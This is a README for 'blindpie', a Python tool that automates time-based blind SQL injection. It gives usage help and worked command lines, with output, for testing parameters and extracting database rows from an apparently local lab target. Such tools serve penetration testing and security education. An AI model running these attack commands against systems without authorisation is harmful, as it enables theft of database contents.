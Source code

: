 # blindpie

`blindpie` is a simple Python script to automate time-based blind SQL injections.<br>
It should work fine injecting in SELECT, DELETE, and UPDATE queries. Injections in INSERT queries are supported only for parameters which are unquoted (numeric values).

## Usage

Use the `-help` command to show the help message:

```
 _     _ _           _       _      
| |   | (_)         | |     (_)     
| |__ | |_ _ __   __| |_ __  _  ___
| '_ \| | | '_ \ / _` | '_ \| |/ _ \
| |_) | | | | | | (_| | |_) | |  __/
|_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                     | |           
                     |_|           

usage: blindpie.py [-h] -u URL -p PARAMS [PARAMS ...] -d DEFAULT [DEFAULT ...]
                 (--post | --get) [-M M] [-T T]
                 {test,attack} ...

A simple tool to automate time-based blind SQL injections.

positional arguments:
{test,attack}

optional arguments:
-h, --help            show this help message and exit
-u URL, --url URL     url of the target
-p PARAMS [PARAMS ...], --params PARAMS [PARAMS ...]
                      parameters for the requests
-d DEFAULT [DEFAULT ...], --default DEFAULT [DEFAULT ...]
                      default values for the parameters
--post                use method POST
--get                 use method GET
-M M                  attack mode (from 0, the least reliable but the
                      fastest, to 3, the most reliable but the slowest)
-T T                  number of threads to create when getting multiple rows

Note: the default values must be of the same type of data of the parameters
(use numbers for the parameters which are numbers, strings otherwise).
```

The script provides two modes of operation: the <i>test mode</i> and the <i>attack mode</i>.

### Test mode

The <i>test mode</i> is used to test which parameters of the GET/POST request could be vulnerable to SQL injection.

This is the help message for the <i>test mode</i>:

```
usage: blindpie.py test [-h] --test

optional arguments:
  -h, --help  show this help message and exit
  --test      test for vulnerabilities
```

Use the `--test` flag to test the parameters.

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind_escaped.php` accepts POST requests with parameters `to` and `msg`, where the former is an integer and the latter is a string. The `-d` parameter is used to set the default value for the parameter of the request and to distinguish between numeric values (which in queries are unquoted) and strings (in queries are quoted). Use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind_escaped.php -p to msg -d 1 message --post test --test
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.019 sec (done in 0.049 sec)
[*] testing params: |████████████████████████████████████████| 100.0% complete
> RESULTS:
[*] to seems to be vulnerable
[*] msg doesn't seem to be vulnerable
[*] all done in 0.063 sec
```

The script tests each parameter of the request and shows if it seems to be vulnerable or not.

### Attack mode

The <i>attack mode</i> is used to extract data from the database by exploiting vulnerable parameters.

This is the help message for the <i>attack mode</i>:

```
usage: blindpie.py attack [-h] --param PARAM --table TABLE --column COLUMN
                          --row ROW [--rows ROWS]

optional arguments:
  -h, --help       show this help message and exit
  --param PARAM    vulnerable parameter to exploit
  --table TABLE    name of the table from which to select
  --column COLUMN  name of the column to select
  --row ROW        index of the row to select
  --rows ROWS      number of rows to select
```

#### Example:

The page with url `192.168.0.104/sqli/time_based_blind.php` accepts GET requests with a parameter named `email`, which is a string. The `-d` parameter is used to set the default value for the parameter. As said before, use as default values strings if the parameter is a string, numeric values if the parameter is an integer, float, etc...

In this case I'm going to extract the rows from 0 to 3 of the `first_name` column from the table `accounts` by exploiting the `email` parameter of the GET request:

```
$ python3 blindpie.py -u http://192.168.0.104/sqli/time_based_blind.php -p email -d email@ddress.com --get -M0 -T4 attack --table accounts --column first_name --param email --row 0 --rows 4
  _     _ _           _       _      
 | |   | (_)         | |     (_)     
 | |__ | |_ _ __   __| |_ __  _  ___
 | '_ \| | | '_ \ / _` | '_ \| |/ _ \
 | |_) | | | | | | (_| | |_) | |  __/
 |_.__/|_|_|_| |_|\__,_| .__/|_|\___|
                       | |           
                       |_|           

[*] avg response time is 0.031 sec (done in 0.096 sec)
[*] row 0 length is 6
[*] row 1 length is 4
[*] row 2 length is 6
[*] row 3 length is 6
[*] getting 4 rows: |████████████████████████████████████████| 100.0% complete (34.583 sec)
> RESULTS:
Arthur
Ford
Tricia
Zaphod
[*] all done in 34.583 sec
```

Note #1: use the `-M` parameter to set the reliability of the script. The value goes from 0 (the least reliable but the fastest) to 3 (the most reliable but the slowest).

Note #2: use the `-T` parameter to set the number of rows to extract concurrently.

The script will test each character of each row and will print the rows found.

## Authors

* **Alessio Vierti** - *Initial work*

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details
